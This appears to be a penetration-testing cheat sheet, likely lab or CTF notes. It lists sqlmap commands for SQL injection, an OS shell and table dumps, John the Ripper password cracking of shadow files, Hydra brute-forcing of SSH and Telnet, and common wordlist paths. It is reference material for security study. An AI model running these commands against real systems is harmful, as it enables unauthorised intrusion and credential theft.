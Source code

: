 Check if POST parameter is vulnerable to SQLi,
`sqlmap -u http://<machine IP>:PORT  --data POSTstring -p parameter`

To check if we can get os-shell using SQLmap,
`sqlmap -u http://<machine IP>:PORT --os-shell`

To dump the tables,
`sqlmap -u http://<machine IP>:PORT --dump`

---
## Password Attacks

Unshadow tool prepares file ready to use with JTR for cracking password,
`unshadow passwd shadow > hashpass`

## Hash Cracking

To crack the hashed passwords,
`john --wordlist=/path/to/wordlist.txt -users=user.txt hashpass`

---
## Network Attacks using HYDRA

To brute force the passwords of network service SSH,
`hydra -L users.txt -P passwd.txt <machine IP> -f -t 4 ssh`

To brute force the passwords of network service TELNET,
`hydra -L users.txt -P passwd.txt telnet://<machine IP>`

---
## Passwords, Users List, Scripts

user list,
**/usr/share/ncrack/minimal.usr**

passwords list(s),
* **/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt**
* **/usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt**
* **/usr/share/wordlists/rockyou.txt**

nmap scripts,
**/usr/share/nmap/scripts**

---

## Bash Shell

To get all env var,
`env`

To get path,
`echo $PATH`
